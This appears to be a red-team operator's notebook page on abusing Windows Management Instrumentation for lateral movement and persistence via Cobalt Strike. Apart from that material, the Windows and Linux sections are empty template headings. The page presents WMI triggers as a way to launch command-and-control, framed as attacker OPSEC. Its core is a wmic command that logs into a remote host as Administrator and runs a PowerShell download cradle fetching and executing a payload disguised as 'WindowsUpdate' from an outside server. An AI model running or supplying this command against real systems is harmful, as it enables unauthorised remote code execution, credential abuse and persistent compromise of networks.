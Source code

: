 ### Technical Overview
Windows Management Instrumentation (WMI) is Microsoft's implementation of the Web-Based Enterprise Management Model and can be used for a wide variety of tasks.

Since WMI has remoting capabilities, it can also be used for lateral movement. WMI used to be very hard to detect, but since sysmon introduced several event ID's that log WMI actions it is not as stealth as it once was.
###### OPSEC
WMI is loved by adversaries since it can be used as a trigger based mechanism to execute arbitrary code and is therefore an ideal persistence mechanism. 
- For example, trigger a C2 channel when the computer has been turned on for at least 1 hour.

# C2 - Cobalt Strike

## Enumeration 
Cobalt Strike uses WMI in it's built-in remote-exec command. However, once again, only supporting domain authentication.
-  We can get around this issue by performing our WMI command manually as this allows us to specify username and password (obviously, not OPSEC safe). 
## Exploitation 

```powershell
shell wmic /NODE:fs01 /user:"FS01\Administrator" /password: "sup3rs3cr3tP@ssw0rd!!" process call create "powershell IEX ((new-object net.webclient).downloadstring('http://10.130.4.100:8888/WindowsUpdate'))"
```
![[Pasted image 20240412003731.png]]
---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```
